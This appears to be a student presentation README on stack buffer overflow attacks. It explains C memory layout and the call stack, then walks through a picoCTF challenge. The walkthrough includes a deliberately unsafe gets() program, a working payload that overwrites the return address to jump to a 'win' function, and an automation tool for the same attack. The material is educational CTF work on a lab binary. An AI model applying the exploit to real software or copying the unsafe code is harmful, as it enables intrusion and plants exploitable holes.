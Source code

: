 # Presentation

## Introduction
For our presentation we will be discussing buffer overflow attacks. Since there are many different types of buffer overflow attacks, we will be focusing on a very specific type of attack that involves the stack and function addresses.

## How Data is Stored in C
Before we discuss how buffer overflow attacks work, we will need to briefly go over how memory works. Here is a diagram that provides a general overview:

<img class="img-fluid" src="https://media.geeksforgeeks.org/wp-content/uploads/memoryLayoutC.jpg" alt="img-verification" height=280 width=342>

*Note how the stack grows from high memory addresses to low memory addresses.*

Since we are focusing on stack based attacks, we will need to familiarize ourselves with the call stack. A stack in general is a datastructure that follows the FILO paradigm. A call stack is very similar. Everytime you call a function a `stack-frame` is pushed onto the stack and at the end of a function call the stack-frame is popped out. Here is a helpful diagram:

![Stack Frame](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/342px-Call_stack_layout.svg.png)

*Note how every stack-frame has a return address. This address points back to the previous stack-frame*

## Overriding the Call Stack
Most buffer overflow attack are based on overriding the return address. The return address lets the call stack know what instruction to execute next. If an attacker is able to modify its value, they can effectively control the execution of a program.

Lets say you have this C program:	
```c
#include <stdlib.h>
int main(int argc, char** argv){
	char buf[20];
	gets(buf);
}
```

When you compile and run this program, one of the first things that will happen is that 20 bytes of memory will be allocated to `buf`. Then the function call to `gets` (never use this function btw) will prompt the user for input. If the user specifies an input that is 20 bytes or less, the program will exit normally. However, if the user is malicious and inputs more than 20 bytes, then the extra input will override other areas of the call stack. Here is a visualization:

<img src="https://www.securitysift.com/wp-content/uploads/2013/12/strcpy_bof_diagram.png" height=320 width=400>

User inputs with sizes greater than what the buffer can hold will leek onto other parts of memory which include the function paramers, other local variables and the return address.

## How Can We Exploit This?

In the example above the return address was overwritten by a bunch of As. If we overwrite it with something less nonsensical we will be able to do things that we normally shouldn't be able to. Let's try to do this for this [vulnerable program](demo/vuln) (taken from this [picoCTF](https://play.picoctf.org/practice?page=1&search=buffer%20overflow%201) challenge).

First lets run it normally:
```
$ demo/vuln 
Please enter your string:
hello
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```

This specific program lets us know what its return address is ahead of time. Let's try to modify it by overrunning the buffer. To make this easier for us we can use `python` to generate a string and then pipe it like this:
```
$ python3 -c "print('A'*100)" | demo/vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

Segmentation fault means that somewhere in your program's execution it did something it wasn't allowed to do. In this case your program is trying to return to the overwritten address `0x41414141`.

Let's try to change the return address to something more interesting. After playing around with the command a bit more, we can see that at an `offset` of 42 is where the return address starts to get overwritten. Now all we need is a value to override it with. To see what other functions are in the file, run this command:
```
readelf -s demo/vuln | grep FUNC
```

One interesting functions is `win` which has an address of `080491f6`. To override it, run this command:
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44 + b'\xf6\x91\x04\x08')" | demo/vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.
```
*Note how we inputted the return address backwards. This is because most CPUs are little endian. Also we used sys.stdout.buffer.write because we were outputting bytes.*

By changing the return address we can run different functions by replacing the original return address with the address of those functions. This can be used for accessing other functions in a file or for accessing functions from programs in other parts a computer storage. 

## Demo of our Tool
Finding the offset and overriding the buffer by hand can be annoying. Luckily, we have created a tool that automates the whole process!

First lets use ```./tool --list demo/vuln``` to find all the functions in the program. 

Next lets use ```./tool --offset demo/vuln``` to find the offset for the program. We will need this value too for our next step.

Now that we have both of these values we can run ```./tool --override demo/vuln 080491f6 44``` to complete our buffer overflow attack.

## Other Notes
Running an attack on a 64 bit program is a similar process with a bit more added steps, but for the sake of simplicity (and time) we made our tool specific to 32 bit ones.

Additionaly modern OS's and compiliers are wary of buffer overflow attacks and have taken proper precautions such a stack-smashing detectors, dynamic memory and the inablity to execute commands directly on the stack. While buffer overflow attacks are still possible, these precautions make them extremely more difficult to implement. For this reason, we have to compile our programs to purposefully exclude these precautions.We created a [script](compile-vulnerable.sh) that automates this.